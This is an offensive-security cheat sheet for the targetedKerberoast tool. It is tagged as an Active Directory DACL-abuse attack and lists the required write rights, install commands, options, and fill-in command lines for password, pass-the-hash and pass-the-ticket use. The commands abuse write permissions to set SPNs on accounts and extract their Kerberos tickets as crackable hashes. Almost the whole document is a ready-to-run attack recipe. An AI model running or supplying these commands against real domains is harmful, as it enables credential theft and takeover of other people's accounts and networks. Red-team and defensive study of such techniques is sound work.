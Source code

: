 # targetedKerberoast

% dacl, GenericWrite, https://github.com/ShutdownRepo/targetedKerberoast
#plateform/linux #target/remote #cat/ATTACK/AD/DACL-ABUSE

## requierements
```
GenericAll, GenericWrite, WriteProperty or Validated-SPN 
```

## _install
```bash
git clone <repo> -b <branch> && python -m venv venv && source venv/bin/activate && pip install -r requierements.txt
```

## targetedKerberoast (cred)
--request-user username (just the username, no domain needed)
-o file       to write ciphers in JtR/hashcat format
--use-ldaps   Use LDAPS instead of LDAP
--only-abuse  Ignore accounts that have an SPN
--no-abuse    Don't attempt targeted Kerberoasting
```
targetedKerberoast.py -v -d <domain_fqdn> -u <user> -p <password> --dc-ip <dc_ip>
```

## targetedKerberoast (pth)
--request-user username (just the username, no domain needed)
-o file       to write ciphers in JtR/hashcat format
--use-ldaps   Use LDAPS instead of LDAP
--only-abuse  Ignore accounts that have an SPN
--no-abuse    Don't attempt targeted Kerberoasting
```
targetedKerberoast.py -v -d <domain_fqdn> -u <user> -H <nt_hash> --dc-ip <dc_ip>
```

## targetedKerberoast (ptt)
--request-user username (just the username, no domain needed)
-o file       to write ciphers in JtR/hashcat format
--use-ldaps   Use LDAPS instead of LDAP
--only-abuse  Ignore accounts that have an SPN
--no-abuse    Don't attempt targeted Kerberoasting
```
KRB5CCNAME=<ccache>  targetedKerberoast.py -v -d <domain_fqdn> -k --no-pass --dc-host <dc_fqdn>
```


